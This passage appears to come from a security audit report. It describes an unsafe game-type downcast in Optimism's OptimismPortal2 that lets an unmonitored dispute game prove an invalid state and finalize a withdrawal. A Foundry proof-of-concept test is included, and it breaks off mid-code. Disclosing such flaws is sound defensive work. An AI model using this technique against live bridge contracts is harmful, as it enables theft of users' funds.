 At a future date, when the current game type is `256`, a user creates a game with `gameType = 0`. It is not watched by the off chain challenger. This game can be used to prove an invalid state, and then finalize their withdrawal, all while not being watched by the off chain monitoring system.

## Proof of Concept

The following proof of concept can be added to  its own file in `test/L1` to demonstrate the vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Test } from "forge-std/Test.sol";
import "./OptimismPortal2.t.sol";

contract UnsafeDowncastTest is CommonTest {
    // Reusable default values for a test withdrawal
    Types.WithdrawalTransaction _defaultTx;
    bytes32 _stateRoot;
    bytes32 _storageRoot;
    bytes32 _outputRoot;
    bytes32 _withdrawalHash;
    bytes[] _withdrawalProof;
    Types.OutputRootProof internal _outputRootProof;

    // Use a constructor to set the storage vars above, so as to minimize the number of ffi calls.
    function setUp() public override {
        super.enableFaultProofs();
        super.setUp();

        _defaultTx = Types.WithdrawalTransaction({
            nonce: 0,
            sender: alice,
            target: bob,
            value: 100,
            gasLimit: 100_000,
            data: hex""
        });
        // Get withdrawal proof data we can use for testing.
        (_stateRoot, _storageRoot, _outputRoot, _withdrawalHash, _withdrawalProof) =
            ffi.getProveWithdrawalTransactionInputs(_defaultTx);

        // Setup a dummy output root proof for reuse.
        _outputRootProof = Types.OutputRootProof({
            version: bytes32(uint256(0)),
            stateRoot: _stateRoot,
            messagePasserStorageRoot: _storageRoot,
            latestBlockhash: bytes32(uint256(0))
        });

        // Fund the portal so that we can withdraw ETH.
        vm.deal(address(optimismPortal2), 0xFFFFFFFF);
    }

    function testWrongGameTypeSucceeds() external {
        // we start with respected gameType == 256
        vm.prank(superchainConfig.guardian());
        optimismPortal2.setRespectedGameType(GameType.wrap(256));

        // create a game with gameType == 0, which we know is exploitable
        FaultDisputeGame game = FaultDisputeGame(
            payable(
                address(
                    disputeGameFactory.create(
```
